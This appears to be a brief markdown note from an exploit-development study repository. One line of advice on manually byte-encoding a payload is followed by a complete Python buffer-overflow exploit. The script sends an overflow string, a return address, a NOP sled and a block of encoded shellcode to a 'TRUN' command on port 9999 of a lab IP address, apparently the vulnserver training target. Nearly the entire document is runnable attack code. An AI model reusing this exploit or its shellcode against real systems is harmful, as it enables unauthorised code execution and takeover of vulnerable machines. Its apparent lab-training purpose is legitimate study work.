 ## SOMETIMES the Payload Encoder in python3 does not work as we wanted to

- **the solution is** manually byte encode it like this:

```python
#!/usr/bin/python3

import sys, socket
from time import sleep

overflow = (b"\xb8\x5c\x1e\x35\x96\xd9\xc6\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
b"\x52\x31\x43\x12\x03\x43\x12\x83\x9f\x1a\xd7\x63\xe3\xcb\x95"
b"\x8c\x1b\x0c\xfa\x05\xfe\x3d\x3a\x71\x8b\x6e\x8a\xf1\xd9\x82"
b"\x61\x57\xc9\x11\x07\x70\xfe\x92\xa2\xa6\x31\x22\x9e\x9b\x50"
b"\xa0\xdd\xcf\xb2\x99\x2d\x02\xb3\xde\x50\xef\xe1\xb7\x1f\x42"
b"\x15\xb3\x6a\x5f\x9e\x8f\x7b\xe7\x43\x47\x7d\xc6\xd2\xd3\x24"
b"\xc8\xd5\x30\x5d\x41\xcd\x55\x58\x1b\x66\xad\x16\x9a\xae\xff"
b"\xd7\x31\x8f\xcf\x25\x4b\xc8\xe8\xd5\x3e\x20\x0b\x6b\x39\xf7"
b"\x71\xb7\xcc\xe3\xd2\x3c\x76\xcf\xe3\x91\xe1\x84\xe8\x5e\x65"
b"\xc2\xec\x61\xaa\x79\x08\xe9\x4d\xad\x98\xa9\x69\x69\xc0\x6a"
b"\x13\x28\xac\xdd\x2c\x2a\x0f\x81\x88\x21\xa2\xd6\xa0\x68\xab"
b"\x1b\x89\x92\x2b\x34\x9a\xe1\x19\x9b\x30\x6d\x12\x54\x9f\x6a"
b"\x55\x4f\x67\xe4\xa8\x70\x98\x2d\x6f\x24\xc8\x45\x46\x45\x83"
b"\x95\x67\x90\x04\xc5\xc7\x4b\xe5\xb5\xa7\x3b\x8d\xdf\x27\x63"
b"\xad\xe0\xed\x0c\x44\x1b\x66\xf3\x31\x27\x31\x9b\x43\x27\xac"
b"\x07\xcd\xc1\xa4\xa7\x9b\x5a\x51\x51\x86\x10\xc0\x9e\x1c\x5d"
b"\xc2\x15\x93\xa2\x8d\xdd\xde\xb0\x7a\x2e\x95\xea\x2d\x31\x03"
b"\x82\xb2\xa0\xc8\x52\xbc\xd8\x46\x05\xe9\x2f\x9f\xc3\x07\x09"
b"\x09\xf1\xd5\xcf\x72\xb1\x01\x2c\x7c\x38\xc7\x08\x5a\x2a\x11"
b"\x90\xe6\x1e\xcd\xc7\xb0\xc8\xab\xb1\x72\xa2\x65\x6d\xdd\x22"
b"\xf3\x5d\xde\x34\xfc\x8b\xa8\xd8\x4d\x62\xed\xe7\x62\xe2\xf9"
b"\x90\x9e\x92\x06\x4b\x1b\xb2\xe4\x59\x56\x5b\xb1\x08\xdb\x06"
b"\x42\xe7\x18\x3f\xc1\x0d\xe1\xc4\xd9\x64\xe4\x81\x5d\x95\x94"
b"\x9a\x0b\x99\x0b\x9a\x19")

shellcode = b"A" * 2003 + b"\xaf\x11\x50\x62" + b"\x90" * 16 + overflow

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = b"TRUN /.:/" + shellcode

	s.send((payload))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
